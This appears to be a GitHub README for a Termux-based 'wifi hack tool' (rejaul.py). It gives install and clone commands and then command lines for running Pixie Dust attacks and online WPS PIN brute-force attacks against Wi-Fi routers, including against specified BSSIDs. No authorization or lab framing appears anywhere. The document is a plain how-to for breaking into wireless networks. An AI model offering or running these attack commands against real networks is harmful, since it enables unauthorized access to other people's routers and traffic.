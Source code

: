 <!--- mark down --->
---
# wifi hack tool all run to rejaul.py
---

``` pkg install -y root-repo ```

``` pkg install -y git tsu python wpa-supplicant pixiewps iw ```

## github link:-

    git clone https://github.com/princeicon2712/rejaul2712.git

``` $ cd rejaul2712 ```

``` $ chmod +x * ```

``` $ python rejaul.py -h ```

## plz' go to HOME

``` Example : sudo python rejaul2712/rejaul.py -i wlan0 -K ```


# Note:

## First turn off your Wifi.

### Show avaliable networks and start Pixie Dust attack on a specified network.

``` sudo python rejaul.py -i wlan0 -K ```

### Start Pixie Dust attack on a specified BSSID: 

``` sudo python rejaul.py -i wlan0 -b 00:91:4C:C3:AC:28 -K ```

### Launch online WPS bruteforce with the specified first half of the PIN:

``` sudo python rejaul.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234 ```

## wps router push button:

``` sudo python rejaul1.py -i wlan0 --pbc ```

### Troubleshooting

### "Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.

<!--[profile](./rejaul.jpg)-->
<img src="rejaul.jpg" width="600"/>
